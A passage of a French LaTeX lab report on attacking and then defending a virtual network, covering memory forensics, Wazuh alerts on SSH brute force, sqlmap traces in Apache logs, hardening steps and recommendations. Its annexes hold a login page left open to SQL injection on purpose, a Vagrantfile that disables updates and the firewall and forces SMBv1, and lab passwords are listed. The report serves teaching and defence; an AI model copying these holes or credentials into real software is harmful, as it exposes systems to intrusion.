La commande linux.pslist.PsList et linux.psaux.PsAux montrent plusieurs processus actifs :

    vsftpd (PID 630) : indique la présence d’un serveur FTP en cours d’exécution.
    Apache2 (PIDs 676, 680) : Le serveur web utilise Apache.\\
    sshd (PID 668) : Indique un accès SSH actif.\\
    Wazuh-agentd et wazuh-syscheckd : car Webserver2 est un agent wazuh.\\
    ModemManager, NetworkManager : confirment que la machine a des services liés à la gestion réseau.

\item{Activité réseau et sockets ouverts}

    Vérification des sockets ouverts :
    \begin{verbatim}
    ./vol.py -f dump_web2.vmem linux.sockstat.Sockstat
    \end{verbatim}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.9\textwidth]{img/vol_sockstat.png}
        \caption{Liste des connexions réseau et sockets ouverts}
    \end{figure}
Les ports 21 (FTP) et 22 (SSH) sont actifs.
Des connexions sont établies avec 192.168.1.101, ce qui indique une interaction potentielle avec un client distant.
vsftpd est lié aux sockets [13258] et [13275], ce qui confirme son fonctionnement

\item{Fichiers ouverts et surveillance des accès}

    La liste des fichiers ouverts est:
    \begin{verbatim}
    ./vol.py -f dump_web2.vmem linux.lsof.Lsof
    \end{verbatim}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.9\textwidth]{img/vol_lsof.png}
        \caption{Fichiers ouverts par les processus}
    \end{figure}
La présence de plusieurs fichiers dans /home/web2/.local/share/gvfs-metadata, pourrait signaler des transferts ou montages de fichiers.

 \begin{figure}[H]
        \centering
        \includegraphics[width=0.9\textwidth]{img/vol_lsof_home.png}
        \caption{Fichiers ouverts dans /home/}
    \end{figure}

    \begin{figure}[H]
        \centering
        \includegraphics[width=0.9\textwidth]{img/vol_lsof_home_1.png}
        \caption{Fichiers ouverts dans /home/ (1)}
    \end{figure}
\item{Indications potentielles d’une activité suspecte}

    On vérification des connexions FTP :
    \begin{verbatim}
    ./vol.py -f dump_web2.vmem linux.sockstat.Sockstat | grep "vsftpd"
    \end{verbatim}
    \begin{figure}[h]
        \centering
        \includegraphics[width=0.9\textwidth]{img/vol_sockstat_grep_ftp.png}
        \caption{Connexion suspecte sur le service FTP}
    \end{figure}

La présence de vsftpd indique qu’un serveur FTP est actif, et des recherches sur grep "upload" n’ont pas renvoyé de résultats directs;
il y'a aussi l'existence d’un trafic actif sur le port 21 suggère une possible transmission de fichiers via FTP

\end{enumerate}

L’analyse du dump mémoire du serveur Webserver2 révèle qu’il héberge plusieurs services critiques (Apache, SSH, FTP) et que des connexions réseau actives sont en cours. Est ce suffisant pour retracer l'attaque sur le protocole FTP qui y a eu lieu? non. Nous devons nous améliorer sur l'analyse mémoire avec volatility et trouver une manière de faire de meilleurs dumps de mémoire. 

\section{Scan des agents Wazuh}

Après l'exécution des différentes attaques, nous avons utilisé Wazuh pour détecter et analyser les comportements suspects.

\begin{enumerate}
    \item \textbf{Vérification des agents actifs}\\
    Sur le serveur Wazuh, nous avons listé les agents connectés :

    \begin{lstlisting}
    sudo wazuh-agent-control -l
    \end{lstlisting}
\begin{figure}[H]
\centering
\includegraphics[width=0.9\textwidth]{img/wazuh_agents_final.png}
\caption{Lancement du brute force SSH avec Hydra}
\end{figure}

    \item \textbf{Détection des tentatives d'attaques}\\
    Nous avons recherché les alertes générées après chaque attaque :

    \begin{lstlisting}
    sudo cat /var/ossec/logs/alerts/alerts.json | jq .
    \end{lstlisting}

    \item \textbf{Logs des tentatives de connexion SSH sur Webserver1} \newline
En surveillant les logs d’authentification, on observe des tentatives de connexion répétées avec l’utilisateur \texttt{root}.
\begin{lstlisting}
sudo tail -f /var/log/auth.log
\end{lstlisting}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.9\textwidth]{img/web1_ssh_2.png}
    \caption{Observations des agents wazuh : windows connecté}
\end{figure}

\item \textbf{Détection de l’attaque dans Wazuh} \newline
Une fois l’attaque initiée, nous avons vérifié si Wazuh captait ces tentatives de connexion suspectes.
\begin{figure}[H]
    \centering
    \includegraphics[width=0.9\textwidth]{img/web1_ssh_4_wazuh.png}
    \caption{Analyse de Webserver1 dans Wazuh - événements captés}
\end{figure}

\item \textbf{Identification des tentatives d’accès avec MITRE ATT\&CK} \newline
Wazuh identifie correctement cette activité comme une tentative d'accès aux identifiants.
\begin{figure}[H]
    \centering
    \includegraphics[width=0.9\textwidth]{img/web1_ssh_5_wazuh.png}
    \caption{Wazuh détecte la tentative de credential access}
\end{figure}

\item \textbf{Analyse détaillée des logs de Wazuh} \newline
Wazuh fournit des détails sur les requêtes SSH échouées.
\begin{figure}[H]
    \centering
    \includegraphics[width=0.9\textwidth]{img/web1_ssh_6_wazuh.png}
    \caption{Détails des logs captés par Wazuh}
\end{figure}

\item \textbf{Consultation des logs de l’agent Webserver1} \newline
L’agent installé sur Webserver1 a bien capturé les événements liés à l’attaque.
\begin{figure}[H]
    \centering
    \includegraphics[width=0.9\textwidth]{img/web1_ssh_7_wazuh.png}
    \caption{Logs SSH captés par l’agent Wazuh sur Webserver1}
\end{figure}

\item \textbf{Identification de l'attaque brute force}  

    L'agent \textbf{Webserver1} a enregistré un grand nombre de tentatives de connexion SSH échouées. Wazuh a détecté \textbf{703 événements} en lien avec une activité suspecte. Les principales techniques MITRE ATT\&CK identifiées sont :  
    - **T1078** : Utilisation de comptes valides (session ouverte).  
    - **T1110** : Tentatives répétées de connexion (brute force).  

    \begin{figure}[h]
        \centering
        \includegraphics[width=0.8\textwidth]{img/web1_ssh_8_wazuh.png}
        \caption{Détection des événements liés au brute force SSH}
    \end{figure}

    \item \textbf{Analyse des logs d'authentification}  

    Les logs montrent que l'attaquant (\textbf{192.168.45.20}) a essayé de se connecter en SSH avec \textbf{root} plusieurs fois sans succès. On retrouve dans les journaux Wazuh les messages suivants :

    \begin{lstlisting}
    Mar 07 16:59:34 Webserver1 sshd[2889]: PAM 5 more authentication failures;
    logname= uid=0 euid=0 tty=ssh rhost=192.168.45.20 user=root

    Mar 07 16:59:34 Webserver1 sshd[2889]: Failed password for root from 192.168.45.20
    \end{lstlisting}

    \begin{figure}[h]
        \centering
        \includegraphics[width=0.8\textwidth]{img/web1_ssh_9_wazuh.png}
        \caption{Logs indiquant plusieurs tentatives de connexion SSH échouées}
    \end{figure}

    \item \textbf{Règles de sécurité déclenchées}  

    Wazuh applique plusieurs règles de détection en réponse à ces événements :
    - \textbf{Rule ID 2502} : Tentatives de connexion échouées multiples.
    - \textbf{Rule ID 5760} : Échec d'authentification SSH détecté.
    - \textbf{Rule ID 5501} : Une session a été ouverte après plusieurs échecs.

    Ces règles permettent d’évaluer la gravité de l’attaque et de déclencher des contre-mesures.

    \begin{figure}[H]
        \centering
        \includegraphics[width=0.8\textwidth]{img/web1_ssh_10_wazuh.png}
        \caption{Aperçu des règles de détection activées par Wazuh}
    \end{figure}

    \item \textbf{Visualisation graphique des tentatives}  

    Les graphiques de Wazuh permettent d'observer les tentatives de connexion échouées et leur répartition. Voici les principales règles déclenchées :
    \begin{itemize}
        \item SSH authentication failure
    \item  multiple authentication failures
    \item  access control violations
    \end{itemize}
    

    \begin{figure}[H]
        \centering
        \includegraphics[width=0.8\textwidth]{img/web1_ssh_11_wazuh.png}
        \caption{détail d'un log et règles déclenchées}
    \end{figure}

     \begin{figure}[H]
        \centering
        \includegraphics[width=0.8\textwidth]{img/web1_ssh_12_wazuh.png}
        \caption{Détails d'un log (1)}
    \end{figure}

    \item \textbf{Analyse forensic et contre-Mesures}  

    

    \textbf{Mesures de sécurité recommandées :}  
    On bloque l’IP source avec un pare-feu :  

    \begin{lstlisting}
    sudo iptables -A INPUT -s 192.168.45.20 -j DROP
    \end{lstlisting}

     Mettre en place Fail2ban pour interdire les tentatives répétées :
    
    \begin{lstlisting}
    sudo apt install fail2ban
    sudo systemctl enable fail2ban
    sudo systemctl start fail2ban
    \end{lstlisting}

   
    
    Redémarrer SSH :
    \begin{lstlisting}
    sudo systemctl restart ssh
    \end{lstlisting}

    \begin{figure}[H]
        \centering
        \includegraphics[width=0.8\textwidth]{img/web1_ssh_13_wazuh.png}
        \caption{Tableau de conformité PCI DSS et recommandations de sécurité}
    \end{figure}

\begin{figure}[H]
        \centering
        \includegraphics[width=0.8\textwidth]{img/web1_ssh_14_wazuh.png}
        \caption{Tableau de conformité PCI DSS et recommandations de sécurité (2)}
    \end{figure}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.8\textwidth]{img/web1_ssh_15_wazuh.png}
        \caption{Appliation des filtres PCI DSS }
    \end{figure}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.8\textwidth]{img/web1_ssh_16_wazuh.png}
        \caption{Récapitulatif de la détection de vulnérabilités sur Webserver1}
    \end{figure}
\end{enumerate}

\section{Patchs des vulnérabilités détectées}

\begin{enumerate}
\item Observation des logs Apache sur Webserver1

Les logs du serveur Apache2 ont été examinés à l'aide de la commande suivante :

\begin{lstlisting}
zcat /var/log/apache2/access.log.2.gz | less
\end{lstlisting}

Ces logs montrent des requêtes suspectes effectuées sur la page `login.php`. On observe que des outils automatisés comme \textbf{sqlmap} ont été utilisés pour identifier des failles SQL Injection.

\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{img/web1_logs_1.png}
    \caption{Requêtes GET et POST suspectes détectées dans les logs Apache}
\end{figure}

\item Utilisation de SQLMap pour l'attaque

Puisque l'attaque a été réalisée avec SQLMap par l’attaquant 192.168.45.20 sur 'login.php', on observe :

\begin{lstlisting}
POST /login.php?KWgX=3899%20AND%201%3D1%20UNION%20ALL%20SELECT...
\end{lstlisting}

\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{img/web1_logs_3.png}
    \caption{Tentatives d'injection SQL via SQLMap enregistrées dans les logs}
\end{figure}

\item Analyse des requêtes POST injectées

On peut observer plusieurs requêtes POST répétées visant à contourner l'authentification :

\begin{lstlisting}
POST /login.php HTTP/1.1 200 382 "http://192.168.44.101/login.php" "sqlmap/1.9.2#stable"
\end{lstlisting}



\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{img/web1_logs_5.png}
    \caption{Requêtes POST suspectes capturées dans Apache}
\end{figure}

    \item \textbf{Protection de Webserver1 contre l'injection SQL}
    On commence par configurer un WAF (Web Application Firewall)
en installant ModSecurity avec Apache pour bloquer les attaques SQLi.
    \begin{lstlisting}
    sudo apt install libapache2-mod-security2
    sudo a2enmod security2
    sudo systemctl restart apache2
    \end{lstlisting}
    On active ensuite  les règles OWASP
    
\begin{lstlisting}
  sudo cp /usr/share/modsecurity-crs/crs-setup.conf.example /etc/modsecurity/crs-setup.conf
    \end{lstlisting}
    et on redemarre 
    \begin{lstlisting}
        sudo systemctl restart apache2
    \end{lstlisting}
    Pour sécuriser le formulaire login.php (voir annexe 1), on peut y ajouter des requêtes préparées pour séparer les données des commandes. 

    
    \item \textbf{Webserver2 : Sécurisation du FTP}
    \begin{lstlisting}
    sudo sed -i 's/anonymous_enable=YES/anonymous_enable=NO/' /etc/vsftpd.conf
    echo "chroot_local_user=YES" | sudo tee -a /etc/vsftpd.conf
    sudo systemctl restart vsftpd
    \end{lstlisting}

    \item \textbf{Windows 7 : Correction EternalBlue \& PrintNightmare}

    \begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{img/windows_logs_printnighmare.png}
    \caption{Logs des connexions}
\end{figure}

   \begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{img/windows_logs_connexion_smb.png}
    \caption{Logs des connexions SMB}
\end{figure}

 \begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{img/windows_logs_connexion_smb.png}
    \caption{Patch Spooler }
\end{figure}
    L'analyse des logs a permis d'identifier plusieurs vulnérabilités sur la VM Windows 7, notamment :
\begin{itemize}
    \item Des tentatives de connexion via le protocole SMB, ce qui indique une possible exploitation d'une vulnérabilité SMBv1 comme EternalBlue.
    \item Des connexions suspectes réussies via les journaux de sécurité Windows.
    \item Des événements liés au service Print Spooler, potentiellement exploités via PrintNightmare.
\end{itemize}

Les logs ont été collectés à l'aide des commandes PowerShell suivantes :
\begin{lstlisting}
Get-EventLog -LogName Security -InstanceId 4624 | Format-Table -AutoSize
\end{lstlisting}

\begin{lstlisting}
Get-EventLog -LogName System | Where-Object {$_.Message -like "*SMB*"} | Format-Table -AutoSize
\end{lstlisting}

\begin{lstlisting}
Get-EventLog -LogName System | Where-Object {$_.Message -like "*spooler*"} | Format-Table -AutoSize
\end{lstlisting}


Après identification des vulnérabilités, les mesures suivantes ont été appliquées pour renforcer la sécurité du système :

On a commencé par désactivation SMBv1.
SMBv1 étant obsolète et vulnérable aux exploits comme EternalBlue, il a été désactivé via la commande suivante :
\begin{lstlisting}
Set-ItemProperty -Path "HKLM:\\SYSTEM\\CurrentControlSet\\Services\\LanmanServer\\Parameters" -Name SMB1 -Type DWord -Value 0
\end{lstlisting}

On a ensuite désactivation le service Print Spooler.

\begin{lstlisting}
Stop-Service -Name Spooler -Force
Set-Service -Name Spooler -StartupType Disabled
\end{lstlisting}

    

    \item \textbf{Reverse Proxy : Protection contre DoS}

    La machine Reverse étant hors service, nous avons décidé d'analyser les logs et pris les mésures suivantes : 
    \begin{lstlisting}
    # Blocage de l'IP attaquante avec iptables
    sudo iptables -A INPUT -s 192.168.1.101 -j DROP

    # Limitation de requetes sur NGINX
    limit_req_zone $binary_remote_addr zone=flood:10m rate=10r/s;
    server {
        location / {
            limit_req zone=flood burst=20 nodelay;
        }
    }

    # Activation de Fail2Ban
    echo "[http-dos]" | sudo tee -a /etc/fail2ban/jail.local
    echo "enabled = true" | sudo tee -a /etc/fail2ban/jail.local
    echo "filter = http-dos" | sudo tee -a /etc/fail2ban/jail.local
    echo "maxretry = 100" | sudo tee -a /etc/fail2ban/jail.local
    echo "bantime = 600" | sudo tee -a /etc/fail2ban/jail.local
    sudo systemctl restart fail2ban
    \end{lstlisting}

    \begin{itemize}
        \item \textbf{Mitigation de l'attaque avec iptables}
    \begin{lstlisting}
    sudo iptables -A INPUT -s 192.168.1.101 -j DROP
    \end{lstlisting}
    On bloque les paquets venant de l'IP attaquante observée dans les logs.
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.9\textwidth]{img/reverse_logs_4.png}
        \caption{Blocage de l'attaquant avec iptables}
        \label{Blocage-attaquant-iptables}
    \end{figure}

    \item \textbf{Mise en place d'une limitation de requêtes sur NGINX}
    \begin{lstlisting}
    limit_req_zone $binary_remote_addr zone=flood:10m rate=10r/s;
    server {
        location / {
            limit_req zone=flood burst=20 nodelay;
        }
    }
    \end{lstlisting}
    
   \begin{figure}[H]
       \centering
       \includegraphics[width=0.9\textwidth]{img/reverse_logs_nginx_http.png}
        \caption{Configuration NGINX pour limiter les requêtes}
       \label{Configuration-NGINX }
   \end{figure}


\item \textbf{Utilisation de Fail2Ban pour bloquer automatiquement les attaques répétées}\\
    On va finalement configurer Fail2Ban pour détecter et bannir les adresses IP effectuant un grand nombre de requêtes suspectes :
    
    \begin{lstlisting}
    echo "[http-dos]" | sudo tee -a /etc/fail2ban/jail.local
    echo "enabled = true" | sudo tee -a /etc/fail2ban/jail.local
    echo "filter = http-dos" | sudo tee -a /etc/fail2ban/jail.local
    echo "maxretry = 100" | sudo tee -a /etc/fail2ban/jail.local
    echo "bantime = 600" | sudo tee -a /etc/fail2ban/jail.local
    sudo systemctl restart fail2ban
    \end{lstlisting}
    

    \begin{figure}[H]
        \centering
         \includegraphics[width=0.9\textwidth]
        {img/reverse_logs_fail2ban.png}
        \caption{Configuration de fail2ban}
  \label{fail2ban}
    \end{figure}
           \end{itemize}

           et enfin l'on durcit la configuration SSH en désactivant la connexion root :
    
    Modification de  '/etc/ssh/sshd\_config' :
    \begin{lstlisting}
    PermitRootLogin no
    MaxAuthTries 3
    \end{lstlisting}
    L'analyse forensic a montré que 192.168.45.20 a généré un grand nombre d'échecs de connexion, mais n'a pas réussi à obtenir un accès root.  
\end{enumerate}


\section{Recommendations}
Il est à remarquer que sur les interfaces du firewall, les connexions ouvertes le sont pour tous les ports. 
\begin{enumerate}
    \item \textbf{Sécurité réseau}
    \begin{itemize}
        \item L'on pourrait commencer par restreindre l’ouverture des ports uniquement à ceux strictement nécessaires :
        \begin{lstlisting}
        sudo ufw default deny incoming
        sudo ufw allow 22/tcp    # SSH
        sudo ufw allow 80/tcp    # HTTP
        sudo ufw allow 443/tcp   # HTTPS
        sudo ufw allow 1514/tcp  # Wazuh Agent
        sudo ufw enable
        \end{lstlisting}
        \item ensuite, on restreind les accès SSH aux seules adresses IP autorisées.
    \end{itemize}

    \item \textbf{Renforcement des mots de passe}
    Les mots de passe utilisés sur les équipements de notre infrastructures sont faibles et sont donc vulnérables à des brutes forces. Nous les avons maintenus car c'etait plus simple pour naviguer dans l'exercice sans s'emmêler les pinceaux. Il faudrait donc :
    \begin{itemize}
        \item modifier les mots de passe par défaut des équipements et comptes :
        \begin{itemize}
            \item \textbf{Webserver1, Webserver2 et Reverse Proxy} : remplacer \texttt{joseline} par un mot de passe fort.
            \item \textbf{VM Wazuh} : Le mot de passe de l'utilisateur admin de wazuh manager est \texttt{alezEjF*XKPkL231Cmri9NvB0NvT+dWR} et est déjà robuste.
            \item \textbf{VM Windows 7} : remplacer \texttt{vagrant}.
            \item \textbf{Firewall Pfsense} : remplacer les identifiants \texttt{admin:pfsense} par un couple plus sécurisé.
        \end{itemize}
        \item et/ou utiliser un gestionnaire de mots de passe pour stocker et gérer ces nouvelles informations.
    \end{itemize}

    \item \textbf{Sécurité des services Web}
    Pour sécuriser les services sur les serveurs Webs, l'on pourrait
    \begin{itemize}
        \item activer et configurer \textbf{ModSecurity} pour Apache et NGINX,
        \item activer \textbf{Fail2Ban} pour limiter les tentatives de connexion SSH et HTTP abusives.
        \item et restreindre l’accès aux ports sensibles aux seules adresses IP de confiance.
    \end{itemize}
Les deux premières mésures ont été prises en compte dans les logs. 
    \item \textbf{Sécurité Windows}
    Pour la sécurité de notre machine windows, l'on pourrait en plus des mésures prises lors du patch des vulnérabilités détectées, activer l’authentification multi-facteurs (MFA) sur les comptes administrateurs.
    

    \item \textbf{Sécurité des logs et surveillance}
    Enfin, nous avons fais une tentative de centralisation des logs sur le SIEM Wazuh mais les capacités de notre infrastructure locale n'ont pas parmis de l'exploiter pleinement. Nous avons également essayer de centraliser les logs sur la vm Logs en serveur rsyslog mais cela impliquait toujours d'avoir $4$ vms allumés lors du déroulement d'une attaque et ce n'a pas toujours été possible. Nous rappelons donc dans les recommendations de 
    \begin{itemize}
        \item centraliser les logs avec \textbf{Wazuh} et surveiller les connexions suspectes.
        \item et définir des seuils d’alerte pour détecter les attaques volumétriques (brute force, DoS).
    \end{itemize}
\end{enumerate}

\chapter{Conclusion}

Ce projet a permis de simuler, analyser et corriger une série d'attaques réalistes sur une infrastructure segmentée en suivant une approche méthodique inspirée des tests d’intrusion (red teaming) et de l’analyse forensique.

\section{Synthèse des résultats}

L'attaquant, positionné sur une machine Kali Linux, a pu exploiter plusieurs vulnérabilités critiques :

\begin{itemize}
    \item \textbf{Webserver1} : injection SQL a permis l’exfiltration de bases de données.
    \item \textbf{Webserver2} : une mauvaise configuration FTP a facilité un accès anonyme et le vol de fichiers sensibles.
    \item \textbf{Windows 7} :
    \begin{itemize}
        \item \textbf{EternalBlue (CVE-2017-0144)} a permis une prise de contrôle via SMBv1.
        \item \textbf{PrintNightmare (CVE-2021-34527)} a facilité l’extraction de mots de passe avec \textit{Mimikatz}.
    \end{itemize}
    \item \textbf{Reverse Proxy} : une attaque DoS a montré la vulnérabilité du serveur aux requêtes volumineuses.
    \item \textbf{Brute force SSH} : L’analyse avec Wazuh a permis de détecter en temps réel certaines des tentatives d’accès non autorisées.
\end{itemize}

\section{Réponse aux incidents et corrections appliquées}

Suite à l’analyse des attaques, plusieurs correctifs et durcissements ont été mis en place :

\begin{itemize}
    \item \textbf{Renforcement du pare-feu} : on a limiter les ports ouverts aux seuls strictement nécessaires.
    \item \textbf{Sécurisation des services} :
    \begin{itemize}
        \item désactivation de SMBv1, correctifs contre EternalBlue et PrintNightmare.
        \item restriction des accès \textbf{FTP} aux seuls utilisateurs autorisés.
        \item Mise en place de ModSecurity pour protéger Webserver1 contre les injections SQL.
    \end{itemize}
    \item \textbf{Surveillance et détection proactive} avec Wazuh SIEM :
    \begin{itemize}
        \item centralisation des logs et corrélation des événements suspects.
        \item alerte automatique sur les tentatives de connexion SSH répétées et autres comportements malveillants.
    \end{itemize}
    \item \textbf{Protection contre les attaques DoS} : configuration de \textbf{Nginx}, iptables et Fail2Ban.
    \item \textbf{Amélioration de l’authentification} :
    \begin{itemize}
        \item \textbf{Changement des mots de passe faibles}.
        \item Mise en place de l’authentification multi-facteurs (MFA) sur les accès critiques.
    \end{itemize}
\end{itemize}

\section{Difficultés et Contraintes}

Une contrainte majeure a été la limitation des ressources système, empêchant l’exécution simultanée de toutes les machines virtuelles (VM). Pour contourner ce problème :
\begin{itemize}
    \item Certaines attaques ont été simulées depuis la VM Wazuh.
    \item Les tests ont été réalisés de manière séquentielle pour éviter la surcharge.
\end{itemize}

Malgré ces ajustements, le projet a mis en évidence l’importance de \textbf{disposer de ressources suffisantes} pour une réponse aux incidents efficace et une meilleure corrélation des événements.

\section{Perspectives et recommandations}

Pour aller plus loin, plusieurs axes d’amélioration peuvent être envisagés :

\begin{enumerate}
    \item \textbf{l'automatisation de la réponse aux incidents} avec Suricata et des scripts de mitigation automatique.
    \item \textbf{la mise en place d’une approche Zero Trust} pour restreindre les accès non autorisés.
    \item \textbf{l'amélioration de la gestion des logs} avec une migration de Wazuh sur une \textbf{infrastructure cloud}.
    \item \textbf{des tests de red teaming approfondis} avec des attaques plus complexes, comme la persistance et l’exfiltration avancée de données.
\end{enumerate}

\section{Conclusion finale}

Ce projet a démontré l’importance d’une approche proactive en cybersécurité, combinant prévention, détection et réponse aux incidents. L’infrastructure a été renforcée face aux menaces les plus courantes, et les attaques simulées ont permis d’évaluer l’efficacité des mécanismes de défense.

Les résultats obtenus soulignent la nécessité de maintenir une veille continue, d’adopter une approche offensive pour tester la sécurité des systèmes, et d’intégrer des solutions automatisées pour assurer une résilience accrue face aux cybermenaces.





\chapter{Annexes}

\section{Test d'injection SQL et correctif}

Cette annexe présente le code PHP vulnérable à une injection SQL et sa version corrigée.

\subsection{Code formulaire login.php Webserver1 vulnérable}

Le code suivant illustre une page de connexion vulnérable à une attaque par injection SQL, car les entrées utilisateur sont directement insérées dans la requête SQL sans validation ni paramétrage.

\begin{lstlisting}[language=PHP, caption=Code vulnérable à l'injection SQL]
<?php
$servername = "localhost";
$username = "root";
$password = ""; // le mot de passe MySQL root, vide si vous n'en avez pas defini un
$dbname = "test_db";

// Creer la connexion
$conn = new mysqli($servername, $username, $password, $dbname);

// Verifier la connexion
if ($conn->connect_error) {
    die("Connexion échouée: " . $conn->connect_error);
}

if (isset($_POST['username']) && isset($_POST['password'])) {
    $user = $_POST['username'];
    $pass = $_POST['password'];

    // SQL vulnerable à une injection SQL
    $sql = "SELECT * FROM users WHERE username='$user' AND password='$pass'";
    $result = $conn->query($sql);

    if ($result->num_rows > 0) {
        echo "Connexion reussie!";
    } else {
        echo "Nom d'utilisateur ou mot de passe incorrect.";
    }
}

$conn->close();
?>

<form method="POST">
    Username: <input type="text" name="username" required>
    Password: <input type="password" name="password" required>
    <input type="submit" value="Login">
</form>
\end{lstlisting}

\subsection{Code formulaire login.php Webserver1 sécurisé}

La version corrigée du code utilise des requêtes préparées (\texttt{prepared statements}) pour empêcher les attaques par injection SQL. Elle lie les entrées utilisateur en tant que paramètres et évite ainsi toute exécution de code non désiré.

\begin{lstlisting}[language=PHP, caption=Code sécurisé contre l'injection SQL]
<?php
$servername = "localhost";
$username = "root";
$password = ""; // le mot de passe MySQL root, vide si vous n'en avez pas défini un
$dbname = "test_db";

// Creer la connexion
$conn = new mysqli($servername, $username, $password, $dbname);

// Verifier la connexion
if ($conn->connect_error) {
    die("Connexion échouée: " . $conn->connect_error);
}

if (isset($_POST['username']) && isset($_POST['password'])) {
    $user = $_POST['username'];
    $pass = $_POST['password'];

    // Requête préparée sécurisée contre l'injection SQL
    $stmt = $conn->prepare("SELECT * FROM users WHERE username=? AND password=?");
    $stmt->bind_param("ss", $user, $pass);
    $stmt->execute();
    $result = $stmt->get_result();

    if ($result->num_rows > 0) {
        echo "Connexion réussie!";
    } else {
        echo "Nom d'utilisateur ou mot de passe incorrect.";
    }
}

$conn->close();
?>
\end{lstlisting}

\section{VagrantFile pour l'installation de windows 7}

\begin{lstlisting}
    # -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|
  config.vm.box = "datacastle/windows7"  
  
  # configuration réseau avec IP statique et gateway
  config.vm.network "private_network", 
                    ip: "192.168.45.30", 
                    virtualbox__intnet: "intnet3",
                    gateway: "192.168.45.1"

  config.vm.provider "virtualbox" do |vb|
    vb.memory = "2048"  
    vb.cpus = 1         
  end

  config.vm.provision "shell", inline: <<-SHELL
    # désactiver les mises à jour 
    sc config wuauserv start= disabled
    net stop wuauserv

    # activer SMBv1 
    reg add "HKLM\\SYSTEM\\CurrentControlSet\\Services\\LanmanServer\\Parameters" /v SMB1 /t REG_DWORD /d 1 /f

    # désactiver SMBv2 pour forcer SMBv1
    reg add "HKLM\\SYSTEM\\CurrentControlSet\\Services\\LanmanServer\\Parameters" /v SMB2 /t REG_DWORD /d 0 /f

    # désactiver le pare-feu  pour éviter tout blocage 
    netsh advfirewall set allprofiles state off

    shutdown -r -t 10
  SHELL
end

\end{lstlisting}





\end{document}
